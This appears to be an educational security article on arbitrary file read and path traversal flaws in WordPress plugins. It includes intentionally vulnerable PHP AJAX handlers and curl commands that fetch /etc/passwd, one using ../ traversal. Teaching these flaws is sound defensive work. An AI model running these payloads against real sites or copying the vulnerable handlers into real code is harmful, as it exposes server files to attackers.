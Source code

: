 ```yaml
---
title: Arbitrary File Read
head:
    - tag: title
      content: Learn about Arbitrary File Read
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Read on WordPress. This includes improper file fetch handling inside of the plugin/theme which can be used to read arbitrary local files inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Read"
  href="/academy/wordpress/securing-code/arbitrary-file-read/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Read vulnerability:

- PHP related
    - [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php)
    - [`readfile`](https://www.php.net/manual/en/function.readfile.php)
    - [`fopen`](https://www.php.net/manual/en/function.fopen.php)
    - [`fread`](https://www.php.net/manual/en/function.fread.php)
    - [`fgets`](https://www.php.net/manual/en/function.fgets.php)
    - [`fgetcsv`](https://www.php.net/manual/en/function.fgetcsv.php)
    - [`fgetss`](https://www.php.net/manual/en/function.fgetss.php) *deprecated from PHP 7.3*
    - [`file`](https://www.php.net/manual/en/function.file.php)
    - [`cURL`](https://www.php.net/manual/en/book.curl.php)

- WordPress related
    - [`WP_Filesystem_Direct::get_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents/)
    - [`WP_Filesystem_Direct::get_contents_array`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents_array/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `WP_Filesystem_Direct::get_contents` function.

```bash
curl '<WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=get_file&url=/etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

Below are some of the findings related to Arbitrary File Read:

- [Critical Vulnerabilities Patched in WordPress Automatic Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/)

## Path Traversal

Path traversal is a vulnerability that allows attackers to access files outside the intended directory by traversing file paths. Path traversal can be used to exploit the arbitrary file read when the file read is limited to a specific directory.

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file_of_a_directory", "get_file_of_a_directory");

public function get_file_of_a_directory(){

    $file = $_GET["file"];
    $file_content = file_get_contents(get_template_directory(). $file);
    echo $file_content;
}
```

To exploit this, any authenticated user needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint. The value of the `$_GET['file']` should be traversed backward using `/../../` to access the files in another directory.

```bash
curl '<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=get_file_of_a_directory&url=/../../../../../../../etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```
